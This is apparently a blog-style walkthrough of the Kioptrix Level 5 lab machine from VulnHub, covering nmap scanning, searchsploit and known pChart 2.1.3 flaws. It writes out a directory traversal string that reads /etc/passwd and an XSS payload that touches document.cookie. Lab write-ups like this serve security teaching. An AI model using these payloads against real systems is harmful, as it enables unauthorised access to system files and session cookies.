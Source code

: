 ```yaml
---
layout: post
title: Kioptrix Level 5 (2014)
---
```

[Kioptrix Level 5 (2014)](https://www.vulnhub.com/entry/kioptrix-2014-5,62/)

## Find IP of box
Our IP: x.x.x.49

`nmap -sP <LHOST>/24`

Kioptrix is running x.x.x.16

## Init NMap Scan

`nmap -sC -sV -oA nmap x.x.x.16`

 - Default Scripts
 - Service Detection
 - Output all formats
 
 ![Initial NMap Scan](/images/KioptrixL5/NMap1.JPG)
 
 There are 3 ports open: 22 (ssh), 80 (http), 8080 (http)
 
 However, the ssh port is closed so we cannot connect
  
 ## HTTP
 
 If we check the source code of port 80, the meta tag has been left in and gives us a url path: pChart2.1.3/index.php
 
 ### Searchsploit
 
 `searchsploit pchart 2.1.3` and we get a txt file containing explanations of multiple explanations such as directory traversal and XSS
 
 ### Directory Traversal
 
Append `?Action=View&Script=/../../etc/passwd` to the url (after index.php) to view etc/passwd but no hashes to be cracked

### XSS

`?id=<script>alert(document.cookie)</script>`


